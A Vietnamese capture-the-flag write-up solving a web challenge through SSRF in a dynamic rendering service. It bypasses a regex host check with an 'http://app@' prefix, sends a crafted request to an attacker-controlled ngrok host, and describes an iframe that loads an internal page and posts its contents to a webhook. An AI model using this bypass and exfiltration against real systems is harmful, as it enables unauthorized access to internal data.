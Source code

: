 # Solution

Ở bài này tận dụng cách khai thác đối với dynamic rendering + SSRF.


Đoạn code `server.js`

```js
const validateUrls = (req, res, next) => {

    let matches = url.parse(req.prerender.url).href.match(/^(http:\/\/|https:\/\/)app/gi)
    if (!matches) {
        return res.send(403, 'NO_FLAG_FOR_YOU_MUAHAHAHA');
    }

    next();
}
```
thực hiện validate host phải bắt đầu bằng `http://app` hoặc `https://app` => bypass với `http://app@`

Kĩ thuật để khai thác thì trong [bài viết](https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/) này đã nêu rõ nên mình sẽ không trình bày lại.

Gửi request

```
GET /redirect.html HTTP/1.1
Host: app@3c58-2402-800-63b7-e478-8d1d-9907-e0c6-5c37.ngrok.io
User-Agent: googlebot
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Sau khi đọc kĩ mình nhận ra không cần thiết (ít nhất là trong bài này) phải gửi request đến `localhost:3000/render?` tận 2 lần. 

Tạo một iframe ở `redirect.html` với `src=http://localhost:3000/render?url=http://app/login.php` và POST nội dung của iframe này đến WEB HOOK.

Kết quả:

```
		<div>
			<p> Welcome back, admin! </p><p>
			</p><p> Here's your cereal. </p>
			<img src="images/cereal.jpg" alt="Cereal" width="200" height="200">
			<p> And your flag: SEE{REDACTED} </p>
		</div>
```

# Tài liệu tham khảo:
<https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/>


